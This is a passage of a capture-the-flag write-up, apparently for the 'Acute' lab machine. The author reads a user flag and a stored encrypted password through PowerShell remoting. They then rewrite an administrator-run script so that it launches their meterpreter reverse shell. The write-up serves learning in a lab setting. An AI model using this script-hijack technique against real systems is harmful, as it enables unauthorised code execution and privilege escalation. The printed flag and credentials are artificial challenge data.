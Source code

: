 I started doing basic enumeration, one command at a time, and found two files on the user's Desktop.  
  
```powershell
PS C:\Windows\system32>Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(cat $env:userprofile/Desktop\user.txt)} -Credential $cred
e54e8178e5aca9f07aed75672ee6492a
```

I had the user flag!

### Finding user creds

```powershell
PS C:\Windows\system32>Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(cat $env:userprofile/Desktop\wm.ps1)} -Credential $cred

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

The second file `wm.ps1`, a PowerShell script, contained a (rediculously long!) password and another username.  It looked like this one was running commands from the server back to the `Acute-PC01` host.  I remembered this user as being an administrator on the original computer, so it looked like a likely lead.

## Enumeration as acute\jmorgan

```
PS C:\utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((Get-Content "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\test.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred

Windows PowerShell Credential Request: Windows PowerShell credential request
Warning: A script or application on the remote computer ACUTE-PC01 is requesting your credentials. Enter your credentials only if you trust the remote computer and the application or script that is requesting them. 

Enter your credentials.

Enter your user name: acute\imonks
Enter your password: *****************
```

I found that I had read/write access to this file, so I used some commandline kung-fu to replace the command being run in the script by the administrator with my meterpreter reverse shell that I had used before.  After entering the credentials for `acute\imonks` the script ran.

* https://stackoverflow.com/questions/21391012/modify-the-contents-of-a-file-in-powershell
